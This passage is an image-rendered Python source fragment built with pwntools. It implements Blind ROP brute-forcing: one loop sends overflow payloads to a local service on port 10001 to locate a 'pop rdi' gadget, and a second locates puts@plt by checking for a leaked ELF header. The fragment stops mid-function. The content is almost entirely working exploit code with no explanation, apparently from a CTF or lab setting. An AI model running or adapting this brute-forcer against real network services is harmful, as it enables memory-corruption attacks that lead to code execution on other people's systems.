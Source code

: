 ```python
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("find address: 0x%x" % addr)
            try:    # check
                payload  = "A"*buf_size
                payload += p64(addr)
                payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)

                p = remote('127.0.0.1', 10001)
                p.recvline()
                p.sendline(payload)
                p.recvline()
                p.close()
                log.info("bad address: 0x%x" % addr)
            except:
                p.close()
                log.info("gadget address: 0x%x" % addr)
                return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1

def get_puts_plt(buf_size, stop_addr, gadgets_addr):
    pop_rdi = gadgets_addr + 9      # pop rdi; ret;
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1

        payload  = "A"*buf_size
        payload += p64(pop_rdi)
        payload += p64(0x400000)
        payload += p64(addr)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            if p.recv().startswith("\x7fELF"):
                log.info("puts@plt address: 0x%x" % addr)
                p.close()
                return addr
            log.info("bad: 0x%x" % addr)
            p.close()
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
```